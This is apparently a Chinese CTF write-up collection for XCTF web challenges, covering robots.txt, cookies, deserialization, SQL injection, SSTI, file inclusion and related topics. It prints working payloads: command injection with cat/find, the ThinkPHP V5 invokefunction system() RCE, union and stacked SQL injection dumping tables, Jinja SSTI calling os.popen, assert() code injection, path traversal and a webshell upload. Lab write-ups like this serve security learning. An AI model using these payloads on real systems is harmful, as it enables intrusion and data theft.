

# Web

## 新手练习区

### view_source

直接查看页面源代码就可以看到flag


### robots

#### 考点：robots协议

robots.txt文件是一个文本文件，使用任何一个常见的文本编辑器，比如Windows系统自带的Notepad，就可以创建和编辑它。robots.txt是一个协议，而不是一个命令。robots.txt是搜索引擎中访问网站的时候要查看的第一个文件。robots.txt文件告诉蜘蛛程序在服务器上什么文件是可以被查看的。

联想到在URL后加上robots.txt，看到页面显示一个php文件，于是访问就看到flag了


### backup

页面提示了index.php的备份目录，而备份名为index.php.bak，于是访问后下载备份文件，打开后就看到flag了


### cookie

由于页面提示cookie了，我们就拿浏览器看看数据包里的cookie

```
Cookie: look-here=cookie.php		//提示我们查看cookie.php，于是我们访问后再次查看cookie
```

果然在响应头部看到了flag


### 一个不能按的按钮

看到页面有一个不可点击的flag，查看源代码后发现

```
<input class="btn btn-default" disabled="" style="height:50px;width:200px;" type="submit" value="flag" name="auth">
```

看到有一个奇怪的地方，disabled=""，因此去掉这个后，点击flag就可以得到flag了

> disabled 属性规定应该禁用 input 元素


### weak_auth

看到一个登录框，要求账户的，可以试试爆破，最后爆库出来为：admin，123456


### command_execution

#### 考点：命令执行

构造payload：

```
127.0.0.1 && ls		//发现可以执行
127.0.0.1 && cd ../ && ls		//查看上一级目录，发现没有，于是查找根目录，也没有
127.0.0.1 && find / -name "*flag*"	//于是find查找flag文件
```

看到出现了一个：/home/flag.txt，于是cat这个文件

```
127.0.0.1 && cat /home/flag.txt		//直接看到了flag
```


### simple_php

进入后看到php的源代码，

```php
show_source(__FILE__);
include("config.php");
$a=@$_GET['a'];
$b=@$_GET['b'];
if($a==0 and $a){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
```

这道题在阅读了PHP代码后，发现，**要a==0，但a的值又不能为0**，因此让a=0+任意非数字字符，而 b=数字就退出， 于是构造：

```
?a=0a&b=12345A		//便得到完整的flag
```


### get_post

直接按照页面提示，先GET提a=1，Post提交b=2就好了，HackBar真好用


### xff_referer

页面要求，ip地址必须为123.123.123.123，我们只要只要在**请求文件头部**添加**X-Forwarded-For**就好了

我们bp改包

```
X-Forwarded-For:123.123.123.123 
```

结果又要我们必须来自https://www.google.com，我们再在文件头添加**Referer**参数改变请求方的参数

```
Referer:https://www.google.com
```


### webshell

#### 考点：后门

这个没啥好说的，菜刀连接上后发现目录下有个flag.txt，打开就看到了flag了


### simple_js

#### 考点：编码

火狐F12进调试器，看到index

```
function dechiffre(pass_enc){
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab  = pass_enc.split(',');
        var tab2 = pass.split(',');
        var i,j,k,l=0,m,n,o,p = "";
        i = 0;
        j = tab.length;
        k = j + (l) + (n=0);
        n = tab2.length;
        for(i = (o=0); i < (k = j = n); i++ ){
        		o = tab[i-l];
        		p += String.fromCharCode((o = tab2[i]));
                if(i == 5)break;
                }
        for(i = (o=0); i < (k = j = n); i++ ){
             	o = tab[i-l];
                if(i > 5 && i < k-1)
                p += String.fromCharCode((o = tab2[i]));
                }
        p += String.fromCharCode(tab2[17]);
        pass = p;return pass;
    }
    String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));

h = window.prompt('Enter password');
alert( dechiffre(h) );
```

代码的功能很简单，就是把一串用逗号分隔的数字按ascii转成字符串，然后输出

看中间两个for循环时，有点懵，输入的内容并没有被处理，就是没有关系，单纯唬人用的


具体解题有两种方法：

#### 方法一：

我们可以使用这个js，只需要修改一下，运行这个html

- 首先将for循环内的

  ```
  p += String.fromCharCode((o = tab2[i]));
  ```

- 改成

  ```
  p += String.fromCharCode((o = tab[i]));
  ```

  这样就能处理输入的内容

看到代码最后有一段，16进制的东西，用python看一下内容

```python
a = '\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30'
print(a)
//输出：55,56,54,79,115,69,114,116,107,49,50
```

使用这串数字，在html运行弹窗里输入就好了 ，看到   786OsErtk12    ，完整包围就可以了

#### 方法二

我们利用**python**里的**chr()**，进行转换

```python
s=[55,56,54,79,115,69,114,116,107,49,50]
for i in s:
print(chr(i),end='')
```

最后得到flag


## 高手进阶区

### baby_web

看似这道题比较简单，但是注意这个状态码**302**

> 1. index.php的状态是302什么意思？
>
>    **302 Found**，原始描述短语为 **Moved Temporarily(临时搬家）** ，是[HTTP协议](https://baike.baidu.com/item/HTTP协议)中的一个状态码(Status Code)。可以简单的理解为该资源原本确实存在，但已经被**临时**改变了位置；换而言之，就是请求的资源暂时驻留在不同的URI下，故而除非特别指定了缓存头部指示，该状态码不可缓存。
>
> 2. 访问index.php跳转到1.php这种情况又是什么原理呢？
>
>    一般原网页被换地方后，有人访问该网页是会被自动定向到另一个设置好的网页，且临时URI应该由响应头部中的 Location 字段给出。

我们在响应头果然发现了它，flag

补充：[web请求各状态码](https://www.cnblogs.com/mengbin0546/p/9362617.html)


### Training-WWW-Robots

这道题算比较简单的**Robots协议题**，网站的根目录放一个**robots.txt**,会告诉搜索引擎这个网站里的那些文件可以访问，哪些不可以

访问robots.txt，可以看到他有一个不允许访问的文件f10g.php，他只是告诉我们不让我们访问，但是没有阻止我们访问，打开后就可以看见flag了


### unserialize3

查看题目源码

```
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```

我们要绕过__wakeup这个魔术函数，不然会被exit掉，

这里利用**反序列化漏洞**，当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

我们在本地搭环境获得序列化的值

```php
<?php 
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
}
$x=new xctf();
echo serialize($x);
?>
```

获取的序列化值

```
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```

> ```
> O:<length>:"<class name>":<n>:{<field name 1><field value 1>...<field name n><field value n>}
> ```
>
> O:表示序列化的事对象
> < length>:表示序列化的类名称长度
> < class name>：表示序列化的类的名称
> < n >:表示被序列化的对象的属性个数
> < field name 1>：属性名
> < field value 1>：属性值

所以要修改属性值< n >，既把1改为2以上，修改一下，大于1就好了

```
?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

补充：[序列化与反序列化基本操作](https://blog.csdn.net/lhc1105/article/details/42213937)


### Web_php_unserialize

#### 知识点

- __construct()：当对象创建（new）时会自动调用。但在 unserialize() 时是不会自动调用的。（构造函数）

- __destruct()：当对象被销毁时会自动调用。（析构函数）

- __wakeup()：unserialize() 时会自动调用

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```


#### 观察

首先它定义了一个Demo类，然后发现初始化改变file值，而且，源码中有这么一段注释：

```
//the secret is in the fl4g.php
```

告诉我们，这个flag在fl4g.php这个页面中，在

```
function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
```

中，如果Demo类被销毁，那么就会高亮显示file所指向的文件的内容。

那么Demo中还有一个函数就是**_wakeup()**，这个函数作用就是**反序列化**时，会自动执行，所以，要想反序列化，那么必须要绕过这个函数。

```php
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
```

这里进行了变量的传入，使用的方法是GET传参，源码分析：

1.首先base64加密

2.使用了preg_match()匹配函数，如果匹配上了，就结束，否则

```
@unserialize($var);
```

所以这里要想办法绕过这个匹配函数


#### 解题步骤

通过上述源码分析，我们要干下面几件事

1.preg_match()匹配绕过

2.unserialize() 反序列化执行_wakeup()的绕过

```php
<?php 
class Demo { 
    private $file = 'fl4g.php';
}

$x= serialize(new Demo);
$x=str_replace('O:4', 'O:+4',$x);//绕过preg_match()
$x=str_replace(':1:', ':3:',$x);//绕过__wakeup()
echo base64_encode($x);
?>
```

> TzorNDoiRGVtbyI6Mzp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

传参给var即可得到flag


### php_rce

#### 考点：代码执行

这道题，考察的是thinkphp V5的漏洞，[攻防世界 thinkPHP V5漏洞详解](https://blog.csdn.net/qq_45676913/article/details/105467321)

简单来说就是，攻击者可以用 \（斜杠）调用任意类方法，在后面接linux命令查找就好了

```
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=
```


先找根目录，

```
s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /
```

看到了flag，直接cat就好了

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20 /flag
```


其实也可以直接查询，也可以很快找到在根目录下

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "flag"
```


### Web_php_include

#### 考点：PHP伪协议

打开页面是这样一段代码从代码中得知**page中带有php://的都会被替换成空**

**str_replace()**以其他字符替换字符串中的一些字符(区分大小写)

**strstr()** 查找字符串首次出现的位置。返回字符串剩余部分

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

将php://改为PHP://即可，因为strstr函数大小写敏感

Post传输恶意代码 ，burp抓包，post传参

```
<?php system("ls");?>

<?php system("cat fl4gisisish3r3.php");?>	看到3个文件，便能拿到flag
```


### supersqli

#### 考点：SQL堆叠注入

是一道SQL堆叠注入的题，

随便注入后发现该题是一个字符串类型的注入

注入时发现屏蔽的很多词，于是我们采用堆叠注入的方式

首先我们看**回显**几位

1. 查数显

   ```
   ?id=1' order by 2--+
   ```

2. 查看注入注入是否成功

   ```
   ?id=1';show databases%23
   ```

3. 爆表

   ```
   ?id=1'; show tables%23
   ```

4. 查字段

   ```
   ?id=1'; show columns from `1919810931114514` %23
   ```

5. 爆值

   ```
   ?id=1'; handler `1919810931114514` open;handler`1919810931114514` read first;		//handler查看内容
   ```


### warmup

打开页面，F12查看网页源代码，看到注释提示，随后进入这个页面


进入后就可以看到源代码了

```php
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>

```

又发现一个`hint.php`页面，进入发现提示


再源代码里面发现了文件包含，其中


这里我们可以构造一个参数进行提交，GET或者POST都可以，这里的php代码拿file参数会进行三个判断：

1. 检查参数是否为空
2. 检查参数是否为字符串
3. 自定义checkFile函数进行判断，只能存在source.php,hint.php

所以我们构建payload，从网站的根目录到达服务器/目录下的**ffffllllaaaagggg**文件

```
?file=hint.php?/../../../../ffffllllaaaagggg
```

拿到flag，`flag{25e7bce6005c4e0c983fb97297ac6e5a}`


### NewsCenter

这题是一道sql注入题，还是比较简单的

首先判断注入种类

- search=0		不报错
- search=0'   	报错
- search=0"  	不报错

再判断有无括号

- search=1' #   	不报错
- search=1') #   	报错

最后确认为**单引号字符串类，无括号**

那就开始我们的注入了

```
search=1' order by 4 #		当加到4时报错，那么最大输出列为3列
search=1' and 0 union select 1,2,3 #		判断数显位为2，3位

//爆库
search=0'  and 0 union select 1,2,database() #		//库为：news

//爆表
search=0'  and 0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="news" #		//表有两张，news,secret_table

//爆字段
search=0'  and 0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="secret_table" #		//确认flag在"secret_table"表中，看到字段为id,fl4g

//爆值
search=0'  and 0 union select 1,2,fl4g from secret_table #		//flag为：QCTF{sq1_inJec7ion_ezzz}
```


### NaNNaNNaNNaN-Batman

拿到后打开，发现是一些js的代码，但是显示有乱码，我们更改后缀为html，出现乱码是因为html无法识别某些编码，我们可以在`eval`前添加一句`alert(_);`，即可显示出原本字符的正常代码：

我们拿来让VScode进行格式化：

```php
function $() {
    vare = document.getElementById("c").value;
    if (e.length == 16)
        if (e.match(/^be0f23/) != null)
            if (e.match(/233ac/) != null)
                if (e.match(/e98aa$/) != null)
                    if (e.match(/c7be9/) != null) {
                        var t = ["fl", "s_a", "i", "e}"];
                        var n = ["a", "_h0l", "n"];
                        var r = ["g{", "e", "_0"];
                        var i = ["it'", "_", "n"];
                        var s = [t, n, r, i];
                        for (var o = 0; o < 13; ++o) {
                            document.write(s[o % 4][0]);
                            s[o % 4].splice(0, 1)
                        }
                    }
}
document.write('<input id="c"><button onclick=$()>Ok</button>');
delete _
```

那就很简单了，主要就是下面这个循环数组输出操作，我们直接拿出来就可以了

```
flag{it’s_a_h0le_in_0ne}
```


### web2

看到源代码就很简单了

```php
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?> 
```

我们直接写个脚本

我们先用rot13在线工具解出rot13的值，再用base64解出str_base64的值

```python
import base64
miwen = 'a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws'
rot13 = 'n1myotdfprfrvdeyjhdnlzjyld2y5ijokdtn3ednlhzm0gzziftz2mjo4gjf'
strrev = rot13[::-1]    # strrev = fjg4ojm2ztfizzg0mzhlnde3ntdkoji5y2dlyjzlndhjyedvrfrpfdtoym1n
str_base64 = '~88:36e1bg8438e41757d:29cgeb6e48c`GUDTO|;hbmg'
flag=''

for i in range(len(str_base64)):
    flag += chr(ord(str_base64[i])-1)
flag = flag[::-1]
print(flag)

// flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}
```


### PHP2

最后发现源码在，/index.phps下，打开后拼凑php代码

```php
?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin"){
  echo "Access granted!";
  echo "Key: xxxxxxx ";
}
?>
Can you anthenticate to this website?
```

分析源码，发现id要不能完全等于admin，但是id要等于admin，看似不合理，但是如果考虑上url编码就可以解决了，只要将admin进行两次url编码，[URL编码在线转换](http://web.chacuo.net/charseturlencode)

```
admin
%61%64%6d%69%6e
%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

?id=%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
或者对其中一个字母进行编码也可以
?id=%25%36%31dmin

cyberpeace{ca4897680fb70d79d8737a42cf192daa}
```


### upload1

看到题目就知道是文件上传了，直接上传一个图片马，bp抓包修改文件名


蚁剑连接，找到flag


```
<?php
$flag="cyberpeace{771e728a2a6c284f07ed9c0c483228fa}";
?>
```


### Web_python_template_injection

#### 考点：python模板注入 

[从零学习flask模板注入](https://www.freebuf.com/column/187845.html)

魔术方法

```
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```

1. 获取字符串的类对象

   ```
   >>> ''.__class__
   <type 'str'>
   ```

2. 寻找基

   ```
   >>> ''.__class__.__mro__
   (<type 'str'>, <type 'basestring'>, <type 'object'>)
   ```

3. 寻找可用引用

   ```
   >>> ''.__class__.__mro__[2].__subclasses__()
   ```

   

常用模板

> 


#### 解题：

```
/{{2*2}}
```


发现2*2变成4了,应该存在模板注入

```
{{''.__class__.__mro__[2].__subclasses__()}}
//查看可引用的所有模块
```


接着，找到flag

由于我们想要读取到flag文件里的信息，所以选用 os.popen

首先我们要找到os模块的位置，他是位于<class 'site._Printer'>里面 ，结果查找在71

通过`**__subclasses__()[71].__init__.__globals__['os'].popen('命令行语句').read()`

```
/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}		//也可以用

/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
```


读取flag

```
/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}		//也可以用这个

{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}
```




### easytornado

#### 考点：模板注入，加密获取cookie

我们进入题目可以看到三个文件，我们分别点击去看看

> /flag.txt 
>
> /welcome.txt 
>
> /hints.txt

```
/flag.txt
flag in /fllllllllllllag
/welcome.txt
render
/hints.txt
md5(cookie_secret+md5(filename))
```

- 第一个文件flag.txt，flag的提示文件名为`/fllllllllllag`
- 第二个welcome.txt中，我们发现提示有一个render，render({options}) 去向模板中渲染数据, 可以把视图响应给客户端，猜测存在模板注入
- 第三个hints.txt，提示md5(cookie_secret+md5(filename))，我们需要获得filename和cookie_secret，filename我们有理由猜测为`/fllllllllllag`，所以，下面的任务就是要找到cookie_secret了

同时，我们在进入页面后，发现URL也变得奇怪，**filehash** 参数应该就是我们最后填入的参数的地方了

```
http://220.249.52.134:37004/file?filename=/flag.txt&filehash=e8974dc29608e8e0dc0003e6405eddeb
```


尝试模板注入，发现跳转到错误页面

尝试直接修改文件名为/fllllllllllllag，发现还有一个页面


页面中存在msg，于是继续尝试{{1*1}}


再来一次，我们试试{{str}}，这次证实存在模板注入漏洞


**解题**

我们可以参考一下[Tornado官方文档](https://tornado.readthedocs.io/en/latest/guide/templates.html#template-syntax)

查阅资料，发现 `secure cookie` 是Tornado 用于保护cookies安全的一种措施，`cookie_secret`保存在`settings`中。

其中发现`self.application.settings`有一个别名


handler指向的处理当前这个页面的`RequestHandler`对象， `RequestHandler.settings`指向`self.application.settings`， 因此`handler.settings`指向`RequestHandler.application.settings`

所以我们的构造payload，就可以拿到cookie_secret了

```
error?msg={{handler.settings}}
```


我们继续完成剩下的MD5加密过程

```
'cookie_secret': f20e2ec2-20ed-4dae-bc28-853952448214
'filename': /fllllllllllllag

md5(cookie_secret+md5(filename))

filename_md5:3bf9f6cf685a6dd8defadabfb41a03a1
最后的MD5：2a8db140333478558b74582a61aa33ee
```

```
file?filename=/fllllllllllllag&filehash=2a8db140333478558b74582a61aa33ee
```


### shrine

#### 考点：SSTI模板注入

[SSTI参考资料](https://zhuanlan.zhihu.com/p/93746437)

[SSTI/沙盒逃逸详细总结](https://www.anquanke.com/post/id/188172)

进入后发现是一个python，但是不规则，我们可以ctrl+u整理好代码

```python
import flask
import os
app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
  def safe_jinja(s):
    s = s.replace('(', '').replace(')', '')
    blacklist = ['config', 'self']
    return ''.join(['{}'.format(c) for c in blacklist]) + s
  return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
app.run(debug=True)
```

python看引入的库包很重要，这里首先导入了两个模块，一个flask，一个os

然后用app.route装饰器传了两个路径`@app.route('/')`，`@app.route('/shrine/<path:shrine>')`

这里默认访问路径为‘/’，那么会将源代码读取出来，也就是默认页面所呈现的

> **@app.route和其它装饰器**
>
> 装饰器只是一种接受函数（就是那个你用“@”符号装饰的函数）的函数，并返回一个新的函数。
>
> 当你装饰一个函数，意味着你告诉Python调用的是那个由你的装饰器返回的新函数，而不仅仅是直接返回原函数体的执行结果。
>
> [Flask和@app.route()参考](https://blog.csdn.net/fang_chuan/article/details/81874678)

我们这里使用模板注入构造payload：**shrine/{{7\*7}}**来尝试构造模板注入


#### 解题

flag在哪呢？最后我们查看源码一开始：`app.config['FLAG'] = os.environ.pop('FLAG')`猜测这个就是flag了

如果没有过滤可以直接{{config}}即可查看所有app.config内容，但是这题设了黑名单[‘config’,‘self’]并且过滤了括号

```python
blacklist = ['config', 'self']
return ''.join(['{}'.format(c) for c in blacklist]) + s
# 在这里把config、self替换为空
```

这个时候我们想到了**内置函数get_flashed_messages()**，又应为**config在current_app里面**，所以我们可以构造payload

```
{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

这样就可以绕过

#### 说明

> Flash模板注入格式：{{1+1}}    //特定情况下可以当做代码执行
>
> get_flashed_messages  　　 //字面意思，获取内容，就是取值，后面跟的就是要取得值
>
> current_app　　　　　　　　 //设计模式中代理设计的代理对象，指向flask核心对象和reques的请求类


### mfw

#### 考点：Git文件泄露

我们进入题目，先F12看看，好像没什么东西。我们随便点一点看到了About板块。这里提示我们网页用到了Git，PHP，Bootstrap

看到Git我们可以想到常见的Git文件泄露，这里尝试一下

直接访问

```
http://220.249.52.134:36295/.git/
```

我们拿githack直接扫一下，找到了一个flag.php，但没什么有用的，直接看看index.php，这里让我们发现了flag的踪迹

```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
```

而且我们还发现了asser()函数，这个函数会将读入的代码当作php执行，而且page的参数没有进行任何过滤

> assert() 检查一个断言是否为 FALSE
>
> strpos() 函数查找字符串在另一字符串中第一次出现的位置。如果没有找到则返回False
>
> file_exists() 函数检查文件或目录是否存在。
>
> assert()函数会将括号中的字符当成代码来执行，并返回true或false


所以我们构造payload，这里有好几种方法

```
?page=' and show_source('templates/flag.php') and '

http://220.249.52.134:36295/?page=' and system("cat templates/flag.php") and '

?page=abc') or system("cat templates/flag.php");//
# 因为在strpos中只传入了abc，所以其肯定返回false，在利用or让其执行system函数，再用" // "将后面的语句注释掉
```

都可以获取到flag，总的来说还是比较容易的


### fakebook

#### 考点：SQL注入+反序列化

进入题目后，我们发现是一个注册界面，我们随便注册一下


我们创建好了发现这个是可以点击进入的，观察URL，可能存在SQL注入的迹象


```
?no=2-1		//回显正常，则该地方是数值型注入
?no=0 order by 4 --+		//4回显正常，5回显报错，回显为4
?no=0 union select 1,2,3,4 --+		//程序ban了我们的值，显示hack，需要绕过
```

这里发现是检测"union select"这个字符串的，我们需要绕过这个字符串的空格，我们尝试拿/**/或者++替换空格绕过

```
?no=0/**/union/**/select/**/1,2,3,4 --+		//成功绕过，得到回显位为2号位
```

#### SQL注入

```
?no=0/**/union/**/select/**/1,database(),3,4 --+
//库名 fakebook

?no=0/**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="fakebook" --+
//表名 users

?no=0/**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name="users" --+
//字段名 no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```

得到字段名后，我们读取数据

```
?no=0/**/union/**/select 1,group_concat(username,":",data),3,4 from users --+
```

发现是一个反序列化的东西，再看到报错提示是函数**unserialize()**

> a:O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:7:"sss.com";} 


在看了其他师傅的WP后，发现我们漏掉了一步，我们需要收集一些网站的信息，我们扫描网页文件，就可以看到**robots.txt**，这里提示我们有一个备份文件，我们下载下来


发现这个类的名字叫**UserInfo**，有3个属性和4个函数（一个构造函数）发现这里只是GET上传，并没有黑名单和白名单，只有最后要符合一个正则表达式

其中有两个函数需要我们注意的一个get，一个isValidBlog（上面的正则表达式就在这儿）

- get方法通过curl发送请求，且并未对参数url进行过滤，这种不对用户可控参数过滤的，我们要重点注意
- isValidBlog函数是对blog参数进行的正则匹配，猜测对用户的输入格式进行了一定的限制
- getBlogContents函数调用了get函数，同样需要关注

> curl是一个利用url语法工作的传输工具，此例中的使用，即获得指定url的页面内容。详细内容，请自行查阅补充


接下来的东西，我认为需要猜。最开始时的用户页面no=1时，页面返回用户的用户名、密码、博客之类的消息。毫无疑问，页面是根据users表中no=1的这条数据，渲染的页面。因为回显，我们只证明了查询语句的第二个字段是username。其余三个字段并不明确，但我们可以猜测，应该和数据库表中的字段顺序相似。第四个字段应该就是data，而我们现在有一个现成的data数据，能否模拟下？

我们blog参数传参，拿伪协议读取flag内容交给blog参数

```php
<?php	// 反序列化php代码
 class UserInfo{
    public $name = "x";
    public $age = 123;
    public $blog = "file:///var/www/html/flag.php";
}

$obj= new UserInfo;
echo serialize($obj);
?>
```

url序列化参数进入

```
?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"x";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

查看页面源码就可以看到经过Base64加密的源码，解码后就看到flag了

[答题参考](https://blog.csdn.net/qq_41500251/article/details/105383065)


### Cat

题目提示：抓住那只猫（猜测是linux下的命令执行）

随着提示信息，我们输入域名，例如输入题目提示域名loli.club，但是无任何响应。不过URL中为get请求，继续测试127.0.0.1，返回对应的ping值，ok，大概知道题目是什么路数了。说明这是一个功能框，输入对应的ip会ping到对应连接情况。

尝试执行命令，127.0.0.1&&dir、127.0.0.1&&ls、127.0.0.1|ls均被屏蔽，无法入手

又陷入困境了


看了师傅们的WP：

唯一收获到的是网站使用的是url编码能够传入。随便输入不同的url编码值，编码在我之前的一篇博文中有提供：https://blog.csdn.net/harry_c/article/details/97913194
当输入边界值%80时系统产生报错，看到报错心中窃喜，是否为突破口。

> 我们传递个%79发现传递之后变成了?url=w，看来是可以传递url编码，系统会接受并进行解析，于是我们传递%80会出现报错，url编码使用的是16进制，80也就是128，ASCII码是从0-127，所以这个时候会报错
>
> 报错信息中可以看到：
>
> ```
> <title>UnicodeEncodeError at /api/ping</title>
> 
> 使用的是python站点
> 使用的是Django框架
> ```

其实在比赛的时候有个提示：

> RTFM of PHP CURL===>>read the fuck manul of PHP CURL???


这里通过对报错信息的仔细查找，似乎找到了网站的绝对地址，窃喜使用地址访问未果，百度找到方法应该要加@输入@/opt/api/dnsapi/views.py果然再一次出现了报错信息，想必距离答案越来越近了，在查找cat、database、XCTF等关键词，哈哈找到关于database的内容：

继续查询**url=@/opt/api/database.sqlite3**


得到flag

```
WHCTF{yoooo_Such_A_G00D_@}
```

[参考1](https://blog.csdn.net/zz_Caleb/article/details/95041031)

[参考2](https://blog.csdn.net/harry_c/article/details/98482494)


### ics-05

#### 考点：php伪协议、preg_replace()函数的/e漏洞进行代码执行

这道题还是比较容易的，我们进入题目后只有一个页面能点进去


因为写这道之前刚刚写了一道php伪协议的题就随手用伪协议来了一波

```
?page=php://filter/read=convert.base64-encode/resource=index.php
```

ok，成功读取index.php，我们拿base64解码一下，其中让我们注意到了这个

```php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

这里，当**pre_replace的参数pattern输入/e的时候 ,参数replacement的代码当作PHP代码执行**

> **preg_replace()函数**
>
> preg_replace($pattern, $replacement, $subject) 
>
> **作用：**搜索subject中匹配pattern的部分， 以replacement的内容进行替换。 
>
> **$pattern:**   要搜索的模式，可以是字符串或一个字符串数组。 
>
> **$replacement:**   用于替换的字符串或字符串数组。 
>
> **$subject:**   要搜索替换的目标字符串或字符串数组。

